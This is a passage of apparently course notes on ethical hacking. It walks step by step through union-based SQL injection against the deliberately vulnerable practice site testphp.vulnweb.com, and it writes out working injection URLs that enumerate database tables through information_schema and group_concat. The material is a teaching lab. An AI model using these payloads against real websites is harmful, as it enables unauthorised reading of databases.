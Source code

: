 		<img src="../../notes-pics/03-Module/21_lecture/21_lecture-6-M3.jpg" alt="" width="500"/>
		<br>we got the version & current user i.e acuart@localhost
	- STEP 5.2 : to take out more info , pass these parameters <br>
		`http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, table_name,3 from information_schema.tables where table_schema=database() limit 0,1`
		- in this command ,
			<br>- "http://testphp.vulnweb.com/artists.php?artist=-1 union select 1" remain same
			<br>- in 2nd column - we wrote table_name (means return all the values on 2nd column)
		- here `0,1` means return `1st` value , 
		- output : <br><img src="../../notes-pics/03-Module/21_lecture/21_lecture-7-M3.jpg" alt="" width="500"/>
			<br>means 1st table name is "artists" , same way u can change the limit in URL like `limit 1,1` then u'll get "carts"
	- STEP 5.3 : but finding each columns individually via passing numbers will be difficult , <br>
		so run this query `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`
    	- `group_concat()` will concat all table names & show them